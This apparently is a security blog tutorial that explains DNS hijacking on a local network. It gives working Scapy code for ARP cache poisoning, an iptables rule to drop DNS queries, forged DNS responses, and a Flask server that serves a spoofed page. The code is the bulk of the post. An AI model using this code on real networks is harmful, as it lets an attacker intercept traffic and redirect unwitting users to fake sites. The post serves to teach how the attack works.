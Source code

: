 ```yaml
---
title: "Performing DNS Hijacking to Redirect Users to a Fake Website"
date: 2019-08-22
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Network Security
  - DNS Hijacking
  - ARP Spoofing
  - Scapy
---
```


# Introduction
In my previous [post][arp], we had a look at poisoning ARP caches which, allowed us to intercept the target's traffic. In this post, we build on that to intercept all DNS requests of the
target and provide a spoofed reply pointing to a web server running on our machine.

# DNS
Every time a user types in an URL into the browser or any web client, the client resolves or "translates" the URL into an IP address. It does this to identify where to send the corresponding HTTP request. The following steps take place to translate the URL into an IP address:

1. The browser first queries the OS with the request asking if it knows the IP address,
2. the OS checks it's local cache and the HOSTS file which contains mappings between URLs and IP address,
3. if the OS does not find any mappings, it queries the local DNS resolver which is usually provided by your ISP,
4. the DNS resolver also checks if it has an answer. If it doesn't, it will recursivelly query
the nameservers till it receives a response from the nameserver responsible for the domain.  

Once the IP address is retrieved, the client sends the HTTP request and displays the page returned.

# DNS Spoofing
Before we can send spoofed responses to the target, we need the target's traffic to pass through our system. This is done by poisoning both the router's and target's ARP cache. The following code shows how this can be done.

```python
while True:
  # Poison router's cache (Scapy will automatically fill in the ethernet frame with our MAC)
  send(ARP(op=2, psrc=g_target_ip, pdst=g_router_ip, hwdst=router_mac), verbose=0)

  # Poison target's cache
  send(ARP(op=2, psrc=g_router_ip, pdst=g_target_ip, hwdst=target_mac), verbose=0)

  # Sleep to prevent flooding
  time.sleep(2)
```

By continuously sending spoofed ARP responses, we poison the ARP caches. Now we control the traffic, i.e., we can decide on what to forward and what not to. By stopping all DNS queries from the target, we can then send a spoofed DNS response pointing to our system. This will cause the target to send all future HTTP/HTTPS requests to our machine. 

To stop forwarding all DNS messages, we need to drop them by adding a firewall rule. This is carried out in the following manner.

```python
# Check to see if we are on linux
if (platform.system() == "Linux"):
  # Enable IP forwarding
  ipf = open('/proc/sys/net/ipv4/ip_forward', 'r+')
  ipf_read = ipf.read()
  if (ipf_read != '1\n'):
    ipf.write('1\n')
  ipf.close()

  # Disable DNS Query forwarding
  firewall = "iptables -A FORWARD -p UDP --dport 53 -j DROP"
  Popen([firewall], shell=True, stdout=PIPE)
```

Now, since all DNS messages from the target are dropped, we need to provide the target with a spoofed DNS response. Failing to do so can lead to a DOS since the target will not be able to resolve the URL to any IP address. To send a spoofed DNS answer, we can use the following code.

```python
if (pkt[IP].src == g_target_ip and
    pkt.haslayer(DNS) and
    pkt[DNS].qr == 0 and        # DNS Query
    pkt[DNS].opcode == 0 and    # DNS Standard Query
    pkt[DNS].ancount == 0       # Answer Count
    ):

  print("Sending spoofed DNS response")

  if (pkt.haslayer(IPv6)):
    ip_layer = IPv6(src=pkt[IPv6].dst, dst=pkt[IPv6].src)
  else:
    ip_layer = IP(src=pkt[IP].dst, dst=pkt[IP].src)

  # Create the spoofed DNS response (returning our IP as the answer instead of the endpoint)
  dns_resp =  ip_layer/ \
        UDP(
          dport=pkt[UDP].sport,
          sport=53
          )/ \
        DNS(
          id=pkt[DNS].id,       # Same as query
          ancount=1,            # Number of answers
          qr=1,                 # DNS Response
          ra=1,                 # Recursion available
          qd=(pkt.getlayer(DNS)).qd,  # Query Data
          an=DNSRR(
            rrname=pkt[DNSQR].qname,  # Queried host name
            rdata=g_server_ip,        # IP address of queried host name
            ttl = 10
            )
          )

  # Send the spoofed DNS response
  print(dns_resp.show())
  send(dns_resp, verbose=0)
  print(f"Resolved DNS request for {pkt[DNS].qd.qname} by {g_server_ip}")
```

In the above code, *pkt* holds the DNS request intercepted by our machine. Using it, we send a DNS response saying that the URL maps to our IP address. Now since the target will start sending HTTP/HTTPS request to our machine, we need to respond to those with our webpage. A simple demonstration can be done using Flask in the following manner.

```python
from flask import Flask

app = Flask(__name__)

@app.route('/')
def spoofed_page():
    return '<h1 align="center">You have been pwned!</h1>'

@app.route('/<path:dummy>')
def spoofed_dir(dummy):
  return '<h1 align="center">You have been pwned!</h1>'

if __name__ == '__main__':
  app.run(host='192.168.137.1', ssl_context='adhoc', port=443)
```
The host argument must be set to the IP address on which the webserver is being run on. Now any page accessed by the target will result in the above html being returned.

# Results
I am running the DNS-hijacker and the web server on a Raspberry PI 3B+ with the target as my iPhone.

![dns-hijacker](../../assets/videos/dns-hijacker.gif)

Sending a request from my iPhone once the DNS hijacker and the web server are started,  results in the following.

![pwned](../../assets/videos/pwned.gif)

We can see that a GET request to `xda-developers.com` was successfully redirected to our webpage. yaaa. Note that the warning can be removed by supplying phony certificates (hard!), but that topic is for another post.

The full script is available on my github [page][page].

[page]: https://github.com/venkat-abhi/dns-redirector
[arp]: https://fsec404.github.io/blog/arp-cache-poisoning-and-mitm/